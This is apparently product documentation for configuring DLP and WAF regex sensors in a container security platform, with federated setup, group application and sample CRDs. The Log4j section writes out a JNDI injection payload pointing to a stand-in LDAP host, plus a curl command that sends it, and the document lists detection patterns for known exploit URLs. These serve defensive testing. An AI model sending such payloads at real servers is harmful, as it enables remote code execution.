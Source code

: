 = DLP & WAF Sensors
:revdate: 2025-05-05
:page-revdate: {revdate}
:page-opendocs-origin: /05.policy/09.dlp/09.dlp.md
:page-opendocs-slug:  /policy/dlp

== Data Loss Prevention (DLP) and Web Application Firewall (WAF)

DLP and WAF uses the Deep Packet Inspection (DPI) of {product-name} to inspect the network payloads of connections for sensitive data violations. {product-name} uses a regular expression (regex) based engine to perform packet filtering functions. Extreme care should be taken when applying sensors to container traffic, as the filtering function incurs additional system overhead and can impact performance of the host.

DLP and WAF filtering are applied differently depending on the group(s) to which they are applied. In general, WAF filtering is applied to inbound and outbound connections except for internal traffic where only inbound filtering is applied. DLP filtering applies to inbound and outbound connections from a 'security domain', but not any internal connections within a security domain. See the detailed descriptions below.

Configuring DLP or WAF is a two step process:

. Define and test the sensor(s), which is the set of regular expressions used to match the header, URL, or entire packet.
. Apply the desired sensor to a Group, in the Policy -> Groups screen.

=== WAF Sensors

WAF sensors represent inspection of network traffic to/from a pod/container. These sensors can be applied to any applicable group, even custom groups (e.g. namespace groups). Incoming traffic to ALL containers within the group will be inspected for WAF rule detection. In addition, any outbound (egress) connections external to the cluster will be inspected.

This means that, while this feature is named WAF, it is useful and applicable to any network traffic, not only web application traffic, and therefore provides broader protections than simple WAFs. For example, API security can be enforced on outbound connections to an external api service, allowing only GET requests and blocking POSTs.

Also note that, while similar to DLP, the inspection is for incoming traffic to EVERY pod/container within the group, while DLP applies inspection to incoming and outgoing traffic from the group only (i.e. the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers).

image:waf_sensors.png[waf]

=== DLP Sensors

DLP Sensors are the patterns that are used to inspect traffic. Built in sensors such as credit card and U.S. social security have predefined regular expressions. You can add custom sensors by defining regex patterns to be used in that sensor. Note that, while similar to WAF, DLP applies inspection to incoming and outgoing traffic from the group only (i.e. the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers). WAF inspection is for incoming traffic only to EVERY pod/container within the group.

image:sensors.png[dlp]

=== Configuring DLP and WAF sensors

The configuration of DLP and WAF sensors is similar. Create a sensor Name and any comment, then select the sensor to Add or Edit the rules for that sensor. Key fields include:

* Have/Not Have. Determines if the match requires the pattern to be found (Have) in order to take the action (e.g. Deny), or only if the pattern does not exist (Not Have) should the action be taken. It is recommended that the "Not Have" operator be combined in the rule with a pattern using the "Have" operator because a single pattern with "Not Have" operator will not be effective.
* Pattern. This is the regular expression used to determine a match. You can test your regex against sample data to ensure correct Have/Not Have results.
* Context. Where to look for the pattern match. Choose packet for the broadest inspection of the entire network connection, or narrow the inspection to the URL, header, or body only.

image:5_sensor_config.png[waf]

Each DLP/WAF rule supports multiple patterns (max 16 patterns are allowed per rule). Multiple patterns as well as setting the rule context can also help reduce false positives.

Example of a DLP rule with a Have/Not Have pattern:
Have:

[,shell]
----
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\b
----

This produces a false positive match for "istio_agent_go_gc_duration_seconds_sum 22.378386247999998":

[,shell]
----
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!
----

Adding a Not Have pattern removes the false positive:

[,shell]
----
istio\_(\w){5}
----

*_Sensors must be applied to a Group to become effective._*

=== Configuring Federated DLP and WAF Sensors

This is the general process for configuring a federated DLP or WAF sensor:

. Define and test the federated DLP/WAF sensor(s), which is the set of regular expressions used to match the header, URL, or entire packet in the **Primary cluster -> Federated Policy ->  DLP Sensors or WAF Sensors** tab.
. Apply the desired sensor to a custom federated Group in the **Federated Policy -> Groups** tab.
. Check that the federated DLP/WAF sensor(s) are synced to the Managed cluster and work as expected.

==== Example

Define a federated DLP/WAF sensor(s) in a Primary cluster and then apply it to a custom federated Group, and then check that those sensors are applied to all Managed clusters.

Steps:

. Define the federated DLP/WAF sensor(s) in the Primary cluster in the relevant **DLP Sensors** or **WAF Sensors** tab:
+
image:federated_1.png[Federated WAF]
+
image:federated_2.png[Federated DLP]

. Apply the federated DLP/WAF sensor(s) to a custom federated Group in the **Federated Policy -> Groups** tab:
+
image:federated_3.png[Custom Federated Group]

. Check that the federated DLP/WAF sensor(s) are synced to the Managed clusters:
+
image:federated_4.png[Federated WAF]
+
image:federated_5.png[Federated DLP]

. In the Managed clusters, containers send out traffic which match the federated DLP/WAF sensor(s) pattern:
+
image:federated_6.png[Federated Container Traffic]

. After Step 4, DLP/WAF "Security Events" notifications are generated:
+
image:federated_7.png[DLP/WAF Security Notification Generation]

=== Applying DLP/WAF Sensors to Container Groups

To activate a DLP or WAF sensor, go to Policy -> Groups to select the group desired. Enable DLP/WAF for the Group and add the sensor(s).

It is recommended that DLP sensors be applied to the boundary of a security zone, defined by a Group, to minimize the impact of DLP inspection. If needed, define a Custom Group that represents such a security zone.  For example, if the Group selected is the reserved group 'containers', and DLP sensors added to the group, only traffic in or out of the cluster and not between all containers will be inspected. Or if it is a custom group defined as 'namespace=demo' then only traffic in or out of the namespace demo will be inspected, and not any inter-container traffic within the namespace.

It is recommended that WAF sensors be applied only to Groups where incoming (e.g. ingress) connections are expected, unless the sensor(s) apply to specific internal applications (expecting east-west traffic).

image:apply_dlp_group.png[group]

==== DLP/WAF Behavior Summary

* DLP pattern matching does not occur for the traffic which is passing among workloads that belong to same DLP group.
* Any traffic passing in and out of a DLP group is scanned for pattern matches.
* Cluster ingress and egress traffic is scanned for patterns if the workload is allowed to make ingress/egress connections.
* Multiple patterns per DLP/WAF rule (max 16 patterns are allowed per rule).
* Multiple alerts are generated for a single packet if it matches multiple rules.
* For performance reasons, only the first 16 rules are alerted and matched even if the packet matches more than 16 rules.
* Alerts are aggregated and reported together if same rule matches and alerts multiple times within 2 seconds.
* PCRE is used for pattern matching.
* Hyper scan library is used for efficient, scalable and high-performance pattern matching.

=== DLP/WAF Actions in Discover, Monitor, Protect Modes

When adding sensors to groups, the DLP/WAF action can be set to Alert or Deny, with the following behavior if there is a match:

* Discover mode. The action will always be to alert, regardless of the setting Alert/Deny.
* Monitor mode. The action will always be to alert, regardless of the setting Alert/Deny.
* Protect mode. The action will be to alert if set to Alert, or block if set to Deny.

=== Log4j Detection WAF Pattern

The WAF-like rule to detect the Log4j attempted exploit is below. Please note this should only be applied to Groups expecting ingress web connections.

[,shell]
----
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
----

Also note that there are ways that attackers could bypass detection by such rules.

=== Testing the Log4j WAF Detection

In an attempted exploit, the attacker will construct an initial jndi: insertion and include it in the User-Agent HTTP Header:

[,shell]
----
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}
----

Using curl to POST data to server(container) can help to test WAF rule:

[,shell]
----
curl -X POST -k  -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"
----

=== WAF Setup and Testing

The downloadable file below provides an unsupported script for creating WAF sensors via CRD and running common WAF rule tests against those sensors. The README provides instructions for running it.

xref:attachment$waf_test.zip[Download WAF test script]

=== Sample Alerts

==== DLP match in Discover or Monitor Mode

image:dlp4_alert_discover.png[DLPAlert]

==== DLP match in Protect Mode

image:dlp_5_protect.png[DLPProtect]

==== DLP Security Event Notification for Credit Card Match

image:dlp6_credit.png[DLPCredit]

[NOTE]
====
The automated packet capture will contain the actual packet including the credit card number matched. This is also true of any DLP packet capture for any sensitive data.
====

== Managing WAF Rules Using Import/Export or CRDs

It is possible to import or export WAF rules from the WAF screen. This can be useful to be able to propagate rules to other clusters, make a backup, or prepare them for applying as a CRD.

In order to create WAF sensors or apply a WAF sensor to a group using CRDs, make sure the appropriate NVWafSecurityRule cluster role binding is created.

Sample WAF sensor CRD

.Click here for details
[%collapsible]
====
[,yaml]
----
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvWafSecurityRule
  metadata:
    name: sensor.execution
  spec:
    sensor:
      comment: arbitrary command execution attempt
      name: sensor.execution
      rules:
      - name: Alchemy
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/NUL\/.*\.\.\/\.\.\/
      - name: Log4j
        patterns:
        - context: header
          key: pattern
          op: regex
          value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
      - name: formmail
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/formmail
        - context: packet
          key: pattern
          op: regex
          value: \x0a
      - name: CCBill
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whereami\.cgi?.*g=
      - name: DotNetNuke
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Install\/InstallWizard.aspx.*executeinstall
      - name: HNAP
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/tmUnblock.cgi
        - context: header
          key: pattern
          op: regex
          value: 'Authorization: Basic\s*YWRtaW46'
      - name: Magento
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Adminhtml_.*forwarded=
      - name: b2
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
      - name: bat
        patterns:
        - context: url
          key: pattern
          op: regex
          value: x2ebat\x22.*?\x26
      - name: eshop.pl
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/eshop\.pl?.*seite=\x3b
      - name: whois_raw.cgi
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whois_raw\.cgi?
        - context: packet
          key: pattern
          op: regex
          value: \x0a
kind: List
metadata: null
----
====

Sample CRD to apply a WAF sensor to a Group

.Click here for details
[%collapsible]
====
[,yaml]
----
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvSecurityRule
  metadata:
    name: demo-group
    namespace: demo
  spec:
    egress: []
    file: []
    ingress: []
    process: []
    process_profile:
      baseline: default
    target:
      policymode: N/A
      selector:
        comment: ""
        criteria:
        - key: domain
          op: =
          value: demo
        - key: service
          op: =
          value: nginx-pod.demo
        - key: service
          op: =
          value: node-pod.demo
        name: demo-group
        original_name: ""
    waf:
      settings:
      - action: deny
        name: sensor.cross
      - action: deny
        name: sensor.execution
      - action: deny
        name: sensor.injection
      - action: deny
        name: sensor.traversal
      - action: deny
        name: wafsensor-1
      status: true
kind: List
metadata: null
----
====

See the xref:usingcrd.adoc[CRD section] for more details on working with CRDs.

== DLP/WAF Response Rules

Response rules based on DLP/WAF security events can be created in Policy ->Response Rules. Start type DLP or WAF and the dropdown will list all sensors and patterns available to create rules.

image:dlp7_response.png[DLPResponse]
